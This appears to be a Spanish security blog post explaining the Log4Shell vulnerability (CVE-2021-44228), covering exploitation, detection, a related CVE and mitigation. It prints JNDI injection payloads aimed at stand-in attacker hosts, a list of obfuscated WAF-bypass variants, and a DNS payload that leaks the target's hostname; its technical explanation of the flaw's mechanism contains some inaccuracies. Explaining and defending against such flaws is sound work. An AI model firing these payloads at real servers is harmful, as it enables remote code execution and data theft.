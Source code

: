 ```yaml
---
layout: single
title: '<span class="post">Log4Shell para dummies (CVE-2021-44228)</span>'
excerpt: "La vulnerabilidad Log4Shell hay estado revolucionando a las empresas desde que se descubrió, en este post contaré en que consiste, como detectarla, explotarla y mitigarla."
date: 2021-12-16
header:
  teaser: /assets/images/log4shell/logo.png
  teaser_home_page: true
categories:
  - post
tags:  
  - log4shell
  - cve-2021-44228
  - log4j
  - java
  - zero-day
  - cibersecurity
show_time: true
toc: true
toc_label: "Content"
toc_sticky: true
---
```


# Contextualización

La vulnarabilidad de tipo RCE ocurre debido a que la función `log4j2.formatMsgNoLookups`

existente en la librería JNDI, la cual se usa para acceder a recursos externos o referencias de Java y esta no realiza un correcto control del valor cargado, seguidamente con LDAP indicamos donde se quiere acceder. Así que, quien ataque puede enviar una petición, ya sea:

- Para obtener recursos mediante la inyección de código previamente encodeada en Base 64.
- Obtener una conexión reversa (reverse shell) a través de la carga remota de un archivo escrito en Java y ya compilado, `Exploit.class` el cual se va interpretar al ser cargado por el servidor.
- Ejecución de código arbitrario sobre el servidor objetivo.

Ya que el servidor descarga, almacena y carga lo que obtenga por parte del recurso externo (en el caso de un atacante, su propio servidor).

# Exploit

El payload lleva comúnmente el formato `${jndi:ldap://IP_SERVER_ATACANTE/file}`

- El atacante envía un parámetro manipulado ( por ejemplo ?x=) al servidor (por HTTP u otro protocolo). Por ejemplo la siguiente cadena: `${jndi:ldap://sitio-malicioso.com/exp}` mediante una petición GET.
- El servidor vulnerable recibe la solicitud con el *payload*.
- La vulnerabilidad en *Log4j* permite que el *payload* se ejecute y el servidor realiza una petición al sitio del atacante. La petición se realiza a través del protocolo JNDI.
- La respuesta desde el servidor del atacante contiene un archivo Java remoto (por ejemplo, un archivo *exploit.class*) que se inyecta en el proceso que está ejecutando el servidor vulnerable.
- Se ejecuta código en el servidor vulnerable.

<a href="/assets/images/log4shell/explotacion.png"><img src="/assets/images/log4shell/explotacion.png"></a>

Aunque el payload puede ser interceptada por un WAF fácilmente, este se puede bypassear de ilimitadas formas:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

Estos consisten en variar y tratar de que no se envíe de forma clara el payload.

Además hay otro protocolo que se puede aprovechar, `rmi` el cual se puede usar con la utilidad `mashalsec` y se ve en el último payload mostrado.

<a href="/assets/images/log4shell/defensas.png"><img src="/assets/images/log4shell/defensas.png"></a>

> Nota: Hay que considerar que cada producto afectado (Apache, Cisco, RedHat, Citrix, etc.. )de 4j en base a su configuración u arquitectura de red se explotan de forma diferente. (En la mayoría basta con la modificación del payload para bypassear posibles WAFs)
> 

# Detección

Para detectar la vulnerabilidad sin causar daños al activo, deberemos realizar los pasos mostrados en la sección de Explotación. Pero tratando se usar un payload que simplemente accedamos a nuestro servidor, por ejemplo: `${jndi:ldap://IP_SERVER_ATACANTE}`

Posteriormente al lanzarla ya sea con ese payload o una variante a modo de bypass, si recibimos una petición en nuestro servidor, podremos confirmar que nuestro objetivo es vulnerable.

Hay varias opciones a la hora de interceptar la petición:

- Montar servidor HTTP para capturar peticiones entrantes (por ejemplo, con Python) y poder así confirmar que se ha recibido la petición al servidor a la que apuntabamos en el código inyectado.
- Podemos ayudarnos de un servidor DNS, para que mediante el encodeo del nombre del target en la petición, se reciba la petición con el nombre del host afectado, confirmando así que es vulnerable.
    
    Ejemplo: `${jndi:ldap://x${hostName}.dns1.myserver.com/a}`
    
- Usando Nuclei y utilizando como servidor receptor de peticiones `interactsh`
    - [Enlace a plantilla de Nuclei](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)

# Variantes de la vulnerabilidad

- **CVE-2021-45046**
    
    Está variante permite generar un ataque de denegación de servicios (DoS), dicha vulnerabilidad tiene una severidad relativamente baja y una complejidad de explotación alta.
    
    Dicha variante se aprovecha de la misma vulnerabilidad de JNDI, aunque a diferencia de Log4Shell esta gracias al control sobre el Mapa de Contexto de Hilos (MDC) cuando no se utiliza una patron de diseño predeterminado, se puede crear datos de entrada maliciosos mediante un patrón de búsqueda JNDI que concluye en un ataque DoS.
    

# Versiones Afectadas

`Log4j 2.0 a 2.14.1`

# Mitigación

Actualizar la librería a la versión `Log4j 2.16`

- **CVE-2021-44228:**
    - Se ha eliminado completamente la funcionalidad afectada.
- **CVE-2021-45046:**
    - Se ha eliminado el soporte para patrones de búsqueda de mensajes y se ha deshabilitado la funcionalidad JNDI por defecto.
